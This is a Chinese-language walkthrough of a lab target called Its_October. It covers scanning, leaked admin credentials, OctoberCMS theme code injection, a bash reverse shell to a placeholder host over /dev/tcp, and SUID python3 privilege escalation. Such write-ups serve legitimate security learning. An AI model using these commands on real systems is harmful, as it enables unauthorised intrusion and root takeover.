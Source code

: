 ### Its_October walkthrough

>kali	192.168.1.106
>
>靶机	192.168.1.116

1. **扫描靶机**

~~~
nmap -sC -sV -A -o october-scan.txt 192.168.1.116
~~~

发现开启了ssh,http,mysql

![image-20200420200853636](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201005.png)

2. **浏览网页**

浏览了一下80端口的页面，没有发现什么有价值的东西，但在8080端口的网页按`F12`发现了一个文件

![image-20200420191336204](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201006.png)

发现管理员的账号密码

![image-20200420191257169](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201007.png)

3. **目录爆破**

~~~
dirb http://192.168.1.116
~~~

使用dirb对网站进行目录爆破,发现了后台登录界面，使用在8080端口网页发现的账号密码成功登录后台

![image-20200420200622648](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201009.png)

进入后台，发现用的是OctoberCMS

![image-20200420200650941](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201010.png)

4. **获得webshell**

进入后台后发现可以添加主题，点击cms->单击add

![image-20200420200322139](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201011.png)

在code的内加入下面的反向外壳代码，但因为这个cms的问题，我们需要将代码放置到js的函数中去，使我们能的到它的webshell

~~~
 exec("/bin/bash -c 'bash -i > /dev/tcp/yourip/5000 0>&1'");
~~~

![image-20200420200241266](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201012.png)

使用nc监听5000端口,在访问该链接即可获得webshell

~~~
nc -lvp 5000
~~~

![image-20200420190944606](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201013.png)

5. **提权**

使用find的来查看suid权限的命令,发现有python3

~~~
find / -perm -u=s -type f 2>/dev/null
~~~

![image-20200420191020322](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201014.png)

使用python3来提权

~~~python
python3 -c 'import os;os.execl("/bin/bash","sh","-p")'
~~~

![image-20200420191149225](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420201015.png)

参考链接

> https://gtfobins.github.io/gtfobins/python/

6. **获得flag**

进入root目录，发现proof.txt

![image-20200420191214422](https://cdn.jsdelivr.net/gh/hyled-Ava/write_pictures/image_2020/20200420200128.png)

7. **总结**

这次主要学习了用find来查找拥有suid权限的命令，以及使用python来进行提权。

